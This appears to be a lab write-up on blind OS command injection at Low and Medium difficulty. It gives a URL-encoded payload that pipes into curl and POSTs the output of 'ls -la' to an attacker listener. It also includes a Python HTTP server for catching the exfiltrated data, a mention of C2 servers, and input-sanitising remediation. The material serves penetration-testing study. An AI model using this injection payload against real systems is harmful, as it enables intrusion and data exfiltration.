




# 1. Low
Tried with interacting as end user, I see result as in picture



Let's determine if it ping to my machine (ICMP Protocol). We can recognize that it's ping to my machine.



In real case, we should ping into our Collaborator (which is BurpSuite Pro extension) or our Command and Control Server (C2 Server)



---
# 2. Medium
The payload to is similar with [OS Command Injection](OS%20Command%20Injection) that I used `|` to bypass, but in this case I build a Server to logging my OS Request.
- My Post data into the server will be: `%7Ccurl%20http%3A%2F%2F192.168.204.1:80%2F%20-X%20POST%20-d%20"%60ls%20-la%60`



---
# 3. Script Supported

```python
from http.server import BaseHTTPRequestHandler, HTTPServer  
# Original source: https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7  
# CURL Request: curl -H "<HEADER>" -X POST http://<IP/HOSTNAME>:444/ -d "<Post_Data>"  


class S(BaseHTTPRequestHandler):  
    def _set_response(self):  
        self.send_response(200)  
        self.send_header('Content-type', 'text/html')  
        self.end_headers()  
  
    def do_GET(self):  
        print(f"\n[+] GET Request: {str(self.path)}\n")  
        self._set_response()  
        self.wfile.write("GET request for {}".format(self.path).encode('utf-8'))  
  
    def do_POST(self):  
        content_length = int(self.headers['Content-Length'])  
        post_data = self.rfile.read(content_length)  
        print(f"\n[+] POST Request: {str(self.path)}\n{post_data.decode('utf-8')}\n\n")  
def run(server_class=HTTPServer, handler_class=S, port=444):  
    server_address = ('', port)  
    httpd = server_class(server_address, handler_class)  
    try:  
        httpd.serve_forever()  
    except KeyboardInterrupt:  
        pass  
    httpd.server_close()  
    print('[-] Stopping HTTP Server...\n')  
  
  
if __name__ == '__main__':  
    from sys import argv  
  
    if len(argv) == 2:  
        run(port=int(argv[1]))  
    else:  
        run()
```


---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 ]+`
- Using function to filter input: 
	- `$value = htmlentities($_GET['src'], ENT_QUOTES);`
	- `$value = htmlspecialchars($_GET['src'], ENT_QUOTES);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)